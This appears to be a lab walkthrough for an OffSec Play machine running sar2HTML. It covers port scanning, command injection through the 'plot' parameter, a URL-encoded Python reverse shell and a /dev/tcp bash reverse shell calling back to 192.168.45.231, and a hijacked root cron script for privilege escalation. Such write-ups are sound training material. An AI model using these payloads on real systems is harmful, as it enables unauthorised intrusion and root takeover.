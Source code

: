 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.223.35 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:39 EDT
Initiating Parallel DNS resolution of 1 host. at 00:39
Completed Parallel DNS resolution of 1 host. at 00:39, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:39
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:39, 0.18s elapsed (2 total ports)
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:39:56 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

```
> rustscan -u 5000 -p 22,80 -a 192.168.223.35 -- -Pn -sCV
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:41 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 00:41
Completed Parallel DNS resolution of 1 host. at 00:41, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:41
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:41, 0.18s elapsed (2 total ports)
Initiating Service scan at 00:41
Scanning 2 services on 192.168.223.35
Completed Service scan at 00:41, 6.37s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.223.35.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 5.23s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.72s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:41:07 EDT for 13s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy/WJJHLFdbwbJpTyRYhEyj2jZV024UPWIdXfNHxq45uh08jkihv3znZ98caLP/pz352c0ZYD31We0bTSbHyjQce2bSAJHubDYp13hU/P4tbV5GIJ72W2rWkLTslH/SJoHUSqlManB7ZzgVyU2KQ4fnNx/V1XGJYsshquRqTrXKeeal+yQvTC4gnsr8ENIGMq0yJnYxMAasx6kmSc+S+065Mie65xkyisFXo2MQyxzsFdCu2w1bYmb3pegYDm6Y0c/EJP0sxDizXVwkUOS0XSVdGuk3RUYjt5GQ2fL24ZsML6CwN+HD2ZTnD0FK90PQTLuvlp6BoI/ZWvIenNvu63
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgxutbLnN4K2tj6ZHzrlzTKS+RRuly+RkA0J63JsQFiwyvz4PqA64w/h0Se3gymZV6zJ9XBpS41b6IoEymeiSA=
|   256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM+5254x35Vwa2S7X73YLY87Q58qQOD9oQeSKMpmmT0o
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

TCP 80/HTTP
```
http://192.168.223.35/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/31152133-0eb4-4522-bc9e-f5956a2aff7d)

```
http://192.168.223.35/robots.txt
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e9abd33-9946-40ed-ab55-5f65f2817b7f)

```
http://192.168.223.35/sar2HTML/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/438bef78-7664-45e9-a7ce-b4bca7043cae)

```
> searchsploit sar2html 3.2.1
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e51793a-dee2-4983-b150-c920c143391e)

```
> searchsploit -m php/webapps/49344.py
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/c58c4b88-64cb-4113-b971-b841f661c5e8)
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/52e5d38e-d619-41e9-ad59-93883841f451)

Manual Exploitation
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/cb1df527-fa04-407d-b858-a46b74333ee8)
```
http://192.168.223.35/sar2HTML/index.php?plot=;whoami
```

Reverse Shell
```
http://192.168.223.35/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.231%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e84d691-8330-48c7-a59f-c9ce5965aaaa)

```
> rlwrap nc -nlvvp 9090
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/3796063f-129a-4c41-bbdf-c1eff80cf73b)

Privilege Escalation
LinPEAS
```
www-data@sar:/tmp$ wget http://192.168.45.231/linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/2af4b81a-f610-4e8e-9062-fedde44ca54d)

```
www-data@sar:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@sar:/tmp$ ./linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/04d98692-aaaa-4733-b86e-5ebb5e19cae4)

List Cronjobs
```
www-data@sar:/var/www/html/sar2HTML$ less /etc/crontab
```
```
less /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

```
https://crontab.guru/#*/5_*_*_*_*
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/79d4c817-c88c-4ca6-a9cb-a15efc23e576)

finally.sh
```
#!/bin/sh

./write.sh
```

write.sh
```
#!/bin/sh

touch /tmp/gateway
www-data@sar:/var/www/html$ 
```

Overwrite the contents of write.sh
```
www-data@sar:/var/www/html$ echo "bash -i >& /dev/tcp/192.168.45.231/9999 0>&1" > write.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/3c68e5f7-0b2f-44fa-94fa-ab033bbfd3da)

```
www-data@sar:/var/www/html$ chmod +x write.sh
chmod +x write.sh
```
